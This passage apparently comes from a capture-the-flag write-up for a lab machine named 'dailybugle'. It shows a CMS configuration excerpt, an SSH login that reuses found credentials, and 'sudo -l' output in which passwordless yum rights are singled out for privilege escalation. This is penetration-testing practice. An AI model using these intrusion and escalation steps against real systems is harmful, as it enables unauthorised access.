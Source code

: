 ```bash
	public $smtpuser = '';
	public $smtppass = '';
	public $smtphost = 'localhost';
	public $smtpsecure = 'none';
	public $smtpport = '25';
	public $caching = '0';
	public $cache_handler = 'file';
	public $cachetime = '15';
	public $cache_platformprefix = '0';
	public $MetaDesc = 'New York City tabloid newspaper';
	public $MetaKeys = '';
	public $MetaTitle = '1';
	public $MetaAuthor = '1';
	public $MetaVersion = '0';
	public $robots = '';
	public $sef = '1';
	public $sef_rewrite = '0';
	public $sef_suffix = '0';
	public $unicodeslugs = '0';
	public $feed_limit = '10';
	public $feed_email = 'none';
	public $log_path = '/var/www/html/administrator/logs';
	public $tmp_path = '/var/www/html/tmp';
	public $lifetime = '15';
	public $session_handler = 'database';
	public $shared_session = '0';
```

- Try login ssh with the credential that we have found.

```bash
ssh jjameson@10.10.150.244
jjameson@10.10.150.244's password: 
Last login: Mon Dec 16 05:14:55 2019 from netwars
[jjameson@dailybugle ~]$ whoami
jjameson
[jjameson@dailybugle ~]$ 
```

- Now we have the way to privilege escalation. First, we can try `sudo -l`

```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ 
```

